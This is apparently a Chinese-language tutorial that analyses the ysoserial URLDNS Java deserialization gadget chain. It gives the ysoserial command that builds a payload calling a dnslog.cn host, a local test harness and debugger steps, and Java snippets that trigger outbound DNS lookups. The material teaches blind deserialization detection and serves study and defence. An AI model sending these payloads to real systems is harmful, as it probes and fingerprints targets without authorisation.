## URLDNS链利用
先来看看用[ysoserial](https://github.com/frohoff/ysoserial)工具怎么利用的。
```bash
# 生成序列化Payload
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://urldns.epraqr.dnslog.cn/ > a.ser
```
然后将序列化payload发给对应的目标结合漏洞让他进行反序列化，这里本地直接写个反序列化过程举例了；
```java
package org.example;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class App {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("/Users/d4m1ts/d4m1ts/tools/java/ysoserial/target/a.ser"));
        objectInputStream.readObject();
    }
}
```
DNSLog成功收到了请求

## 动态调试ysoserial
简而言之，就是给[ysoserial](https://github.com/frohoff/ysoserial)项目加载到idea中，方便我们分析调试。
下载ysoserial项目后，导入到idea中，解决掉依赖问题
有的依赖一直装不上，可以新建个maven项目，然后再给不能下载的依赖放到pom.xml，下载后说不定可以解决。
实在不行就手动下载jar然后导入吧
idea会自动识别ysoserial的主类ysoserial.GeneratePayload，然后直接运行项目即可；我们也可以通过pom.xml文件的mainClass属性看到主类，如果正常显示ysoserial的用法，就说明项目部署成功了。

因为ysoserial生成payload需要传入参数，所以我们手动配置一下项目，传入参数
Run --> Edit Configurations...

然后在Program arguments输入对应的参数

再次运行

生成了序列化数据，说明一切运行成功，就可以用idea开始动态调试了。
## URLDNS链分析
URLDNS是ysoserial里面就简单的一条利用链，但URLDNS的利用效果是只能触发一次dns请求，而不能去执行命令。**比较适用于漏洞验证这一块，尤其是无回显的命令执行**，而且URLDNS这条利用链并不依赖于第三方的类，而是JDK中内置的一些类和方法。
打开ysoserial/payloads/URLDNS.java的源码，可以看到它的调用链
```java
*   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```
这样看还是有点不特别明白，调试分析看看。
模拟对序列化后的ser文件进行反序列化处理，然后分析整个过程，反序列化代码如下（第一节中的反序列化代码）：

根据上述的Gadget Chain，可见触发点是在HashMap.readObject()，为了节约时间，我们直接在HashMap.readObject()处下断点。

运行主程序开始反序列化，自动在我们下断点的地方暂停。
然后一直F8
根据Gadget Chain发现使用了putVal方法，但这不是重点，重点是会调用hash方法

跟进hash方法

如果key不是null就会调用key.hashCode方法，跟进hashCode方法，这里调用的是URL类中的hashCode方法

当hashCode属性不为-1时就直接return，就不会触发hashCode方法，也就不会触发接下来的DNS解析
这里hashCode值默认为 -1，所以会执行 handler.hashCode(this);
URLDNS链中也通过反射将hashCode的值设置为-1

跟一下handler，看看是什么玩意儿

是URLStreamHandler类（也是我们传入的handler），也就是说这里调用的是URLStreamHandler.hashCode
跟进hashCode方法，发现会调用getHostAddress方法对传入的URL对象进行解析

跟进getHostAddress方法，发现会调用getHost方法，然后调用InetAddress.getByName(host)发起DNS请求，至此整个过程完毕。

## 思考
分析过程中，发现HashMap.put方法中也调用了hash方法，然后去进行hashCode计算等。

那么就是说，在put操作的时候，也会触发对应的dns解析，试试看。
```java
package org.example;

import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class App {

    public static void main(String[] args) throws MalformedURLException {
        HashMap map = new HashMap();
        URL url = new URL("http://cgu44y.dnslog.cn/");
        map.put(url, 2);
    }
}
```

成功获取到了DNS解析请求记录。
那么为什么ysoserial在生成序列化数据的时候，也调用了put方法，但是没有收到DNS解析记录呢？
原因就在于继承抽象类URLStreamHandler的SilentURLStreamHandler类中，重写了openConnection和getHostAddress

因此在调用 put 方法的时候不会触发 dns 查询。
进行尝试重写了openConnection和getHostAddress，发现确实不能收到dns查询记录。
```java
package org.example;

import java.io.IOException;
import java.net.*;
import java.util.HashMap;

public class App {

    public static void main(String[] args) throws MalformedURLException {
        URLStreamHandler urlStreamHandler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }

            @Override
            protected synchronized InetAddress getHostAddress(URL u){
                return null;
            }
        };

        HashMap map = new HashMap();
        URL url = new URL(null, "http://qyd9tm.dnslog.cn/", urlStreamHandler);
        map.put(url, 2);
    }
}
```
那这样我们反序列化的时候不是也因为重写了方法而不能进行 dns 查询吗？
原因在于 URL 里面的 handler 设置的是 transient
我们都知道一个对象只要实现了Serilizable接口，这个对象就可以被序列化，java的这种序列化模式为开发者提供了很多便利，我们可以不必关系具体序列化的过程，只要这个类实现了Serilizable接口，这个类的所有属性和方法都会自动序列化。
然而在实际开发过程中，我们常常会遇到这样的问题，这个类的有些属性需要序列化，而其他属性不需要被序列化，打个比方，如果一个用户有一些敏感信息（如密码，银行卡号等），为了安全起见，不希望在网络操作（主要涉及到序列化操作，本地序列化缓存也适用）中被传输，这些信息对应的变量就可以加上transient关键字。
也就是说**transient修饰符无法被序列化**，所以虽然它最后是没执行dns请求，但是在反序列化的时候还是会执行dns请求

测试一下transient
```java
package org.example;

import java.io.*;
import java.util.Arrays;

public class App {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Test test = new Test();
        // 设置值
        test.test = "Test Value";
        System.out.println(test.test);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(test);
        System.out.println(Arrays.toString(byteArrayOutputStream.toByteArray()));

        // 反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        Test serTest = (Test) objectInputStream.readObject();
        System.out.println(serTest.test);
    }
}

class Test implements Serializable {
    transient public String test;
}
```

可见反序列化后的值为null，说明序列化时并没有将test对应的值代入进去。
## 总结
这条链还是比较简单的，主要是反序列化过程中HashMap的Key会进行Key.HashCode()计算，如果Key传入的是URL(URL context, String spec, URLStreamHandler handler)类型（重写URLStreamHandler避免有多余的DNS请求），在计算hashCode()的时候，就会调用URLStreamHandler.hashCode()触发getHost方法对目标进行DNS解析。
举个例子：
```java
package org.example;

import java.io.IOException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;

public class App {

    public static void main(String[] args) throws MalformedURLException {
        /*
        * `URL(URL context, String spec, URLStreamHandler handler)`类型，在计算`hashCode()`的时候，就会调用`URLStreamHandler.hashCode()`触发`getHost`方法对目标进行DNS解析
        * */
        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }
        };

        URL url = new URL(null, "http://k0e09d.dnslog.cn/", handler);
        url.hashCode(); // 触发点
    }
}
```
